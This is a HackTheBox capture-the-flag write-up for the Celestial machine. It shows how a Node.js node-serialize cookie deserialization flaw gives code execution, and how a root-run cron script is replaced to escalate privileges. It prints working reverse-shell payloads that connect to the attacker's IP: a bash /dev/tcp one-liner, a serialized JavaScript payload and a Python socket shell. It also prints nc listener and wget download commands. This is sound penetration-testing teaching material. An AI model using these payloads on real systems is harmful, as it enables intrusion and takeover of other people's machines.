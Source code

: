 # Celestial [HTB](https://app.hackthebox.com/machines/130)
![celestial-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/celestial-01.png)

## Recon

After adding an entry for our target in `/etc/hosts`, i start enumerating with `namp`:

```bash
nmap -sC -sV -A -p- celestial.htb -oN nmap.result
``` 

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/nmap-res-02.png)

We have a single `Node.js` web server running on port 3000, lets take a look at it.


### Node.js Express Port 3000

Lets start by openning the site at `http://celestial.htb:3000`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/site-03.png)

Ok, not much to see here, lets open `Burp` and take a closer look at what's happenning in the background:

![burp-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/burp-04.png)

When we make an initial request, Altough the server replied with a `200` OK HTTP status, it prints
out a `404` text header. Along with that, the server gives us a cookie. If we then refresh the page, 
our client requests the same root directory, but this time adds the cookie and now we get the page:

![cookie-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/cookie-05.png)


So the cookie is being used here for something. When I initially researched `Node.js` cookies, I found
[hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/nodejs-express)'s page,that describes a tool to decrypt the cookies. 

But if we pay close attention we will see that the cookie format is different from whats been given to 
us be the target. So this tool will not help us. 

Then i took a closer look at the cookie itself, at first i thought it was encrypted with a strong 
encryption algorithm, but still I decided to check it againts [hash-identifier](https://hashes.com/en/tools/hash_identifier):

![base64-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/base64-06.png)

If we take our cookie and [decode](https://www.base64decode.org/) it we see the following:

![decode-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/decode-07.png)

So the cookie is just a base64 encoded JSON data. The `username` and `num` keys are interesting. 
I think they are used to render the text on the main page. Lets set the `num` argument to `4` encode it and send it to the target:

![num-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-08.png)

Now lets send that to the server as the cookie and see what happens:

```bash
curl -H 'Cookie: profile= eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjQifQo=' http://celestial.htb:3000
```

![response-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/response-09.png)

We can see the response has changed. We can conclude from this that the server is using data extracted
from the cookie to render the web page. And since we can easily control what goes in the cookie, we can 
possibly temper with the server's backend. 

Now the question is, how we can levrage this to get access to the system? 

So i started to play around with different payloads, like `"num": "id"`. Which lead me to an interesting error:

![eval-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/evaul-10.png)

The `eval()` function in JavaScript evaluates and executes java code, this is a potential attack vector. 
So i tried to to send a reverse shell with the different payloads. None worked for me, but the following one brought yet another interesting error:

```java
"num":"exec(\"/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.61/443;cat <&5 | while read line; do $line 2>&5 >&5; done'\");"
```

![unserialize-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/unserialize-11.png)


While googeling this error, i came across an interesting [artical](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/). Apperantly, in some 
versions of the `node-sirialize` module, we can execute arbitrary code by declaring a serialized functionpassed inside a cookie and immediatly invoke it with a function expression. 

I've tried to find a working payload for quite some time, I tried a few different exploits from `ExploitDB`, but they did not work for me. So i decided to use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) script to generate a JavaScript reverse shell payload.

After downloading the script, i generated my payload with:

```bash
./nodejsshell.py 10.10.14.61 443
```

![gen-payload-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/gen-payload-12.png)

This results in a rather large output. I took the `<nums>` output and wrapped it inside a serliazed function and i invoked it at the end with `()`:

```javascript
"_$$ND_FUNC$$_function (){eval(String.fromCharCode(<nums>))}()"
```

I took the payload and placed it as the value for the `num` property in the cookie and base64 encoded it:

![encode-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/encode-13.png)


I started my listener with:

```bash
rlwrap nc -lnvp 443
```

And i sent the payload to the target:

![send-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/send-14.png)

This gave me access to the system:

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/shell-15.png)


## Privilege Escalation

The first thing i did after landing the shell was to upgrade it with:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

![upgrade-shell-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/upgrade-shell-16.png)

Now it's a bit more intuitive. Then i tried to snatch quick wins by running `history`, `sudo -l`, as well
as `find / -perm -4000 2>/dev/null` but with no luck. 

If we take a look at our user's group membership with `id` we can see that our user is a part of the `sudo` and `adm` groups, but in order to use `sudo` we need our user's password which i wasnt able to find. 

So intead i decided to have a look around the system, if we list out the contents of our home folder we 
will se somthing interesting:

![home-dir-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/home-folder-17.png)

We have a text file in our home folder owned by root, this is unusual. I'm thinking that a task is 
probably running in the background doing this. Lets get [pspy64](https://github.com/DominicBreuker/pspy)
on the target and take a look at the background processes. 

Use a python server to host the file with:

```bash
python3 -m http.server 80
```

Download the file from the target and execute it using:

```bash
wget http://10.10.14.61/pspy64
chmod +x pspy64 
./pspy64
```
![task-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/task-18.png)

Here it is. We have root (UID 0), spwaining `bin/sh` to run a python script found in our user's `~/Documents` directory. The output from the script is saved to the `output.txt` file we saw erlier. 

If pay close attention to the task, we can see a few different commands here are being executed, 
but we only really care about the first one, if we can inject code into this file we can pop a reverse 
shell as root. Everything after the first command will be halted due to the reverse shell connection.

What i ended up doing, is creating a pyhton reverse shell script in my Kali machine:

```python
import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",9001));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```

Then, i deleted the orignal `script.py` on the the target and downloaded my version with:

```bash
rm script.py 
wget http://10.10.14.61/script.py
```

Then i started my listener with:

```bash
rlwrap nc -lnvp 9001
```

And waited for the connection:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Celestial/img/root-19.png)


